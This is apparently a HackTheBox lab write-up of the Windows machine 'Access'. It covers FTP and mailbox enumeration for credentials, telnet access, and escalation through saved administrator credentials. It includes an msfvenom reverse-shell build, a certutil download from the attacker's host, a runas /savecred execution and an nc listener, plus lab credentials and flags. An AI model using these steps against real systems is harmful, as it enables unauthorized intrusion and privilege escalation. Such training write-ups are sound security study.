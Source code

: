 ```yaml
---
title: "Access"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Access

![](../assets/Pasted%20image%2020250515230704.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.98
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 23:06 CEST
Nmap scan report for 10.10.10.98
Host is up (0.042s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   41.63 ms 10.10.14.1
2   42.22 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.51 seconds
```

The website shows an image of servers.

![](../assets/Pasted%20image%2020250515231318.png)

Enumerating the `FTP` service, we find two folders: `Backups` and `Engineer`.

Get the files inside both of them.

```shell
$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
ftp> ls backups
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> ls engineer
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
```

The zip file is password protected, so use `strings` on `backup.mdb` to see the password.

![](../assets/Pasted%20image%2020250516162836.png)

Now unzip the `.pst` file.

First, using `readpst`, create an `mbox` file and then read it.

```shell
$ readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

```shell
$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 01:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-1909107888_-_-"
...

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John

...

```

So we now have `security:4Cc3ssC0ntr0ller`.

## Initial Access

Using the credentials, try `telnet` on `port` `23`.

```shell
$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

```

Get the flag:

```shell
C:\Users\security>type desktop\user.txt
d317a0b870778120819e6db932f1752d
```

## Privilege Escalation

There are stored administrator credentials:

```shell
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Create a reverse shell and upload it to the machine.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=5555 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

```shell
C:\Users\security>certutil -f -split -urlcache http://10.10.14.14:8000/reverse.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

Now start a listener and, using `runas`, execute the shell.

```shell
C:\Users\security>runas /savecred /user:ACCESS\Administrator ".\reverse.exe"
```

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.98] 49163
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
04c18a0791cf85431a0284101f6aef72
```
